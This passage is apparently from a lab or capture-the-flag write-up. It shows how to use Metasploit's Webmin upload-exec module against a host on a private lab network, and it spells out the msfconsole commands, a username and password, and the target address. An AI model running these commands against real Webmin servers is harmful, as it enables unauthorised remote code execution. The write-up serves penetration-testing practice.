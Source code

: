 This Github Advisory Database provides several links for the resources and articles. Rapid7's website provides the module in Metasploit to ease our exploitation

<figure><img src="../../../.gitbook/assets/image (87) (1).png" alt=""><figcaption></figcaption></figure>

It provides the guide on which module to use. We also need to check for the options

```
msfconsole
msf6 > use exploit/unix/webapp/webmin_upload_exec
msf6 exploit(unix/webapp/webmin_upload_exec) > show options
```

<figure><img src="../../../.gitbook/assets/image (88) (1).png" alt=""><figcaption></figcaption></figure>

It requires some essential parameters to be filled like the username, password, target host and target URL where webmin is hosted. After all required parameters are filled, start the exploit

```
msf6 exploit(unix/webapp/webmin_upload_exec) > set password Password6543
msf6 exploit(unix/webapp/webmin_upload_exec) > set username admin
msf6 exploit(unix/webapp/webmin_upload_exec) > set rhost 172.16.1.17
msf6 exploit(unix/webapp/webmin_upload_exec) > exploit
```
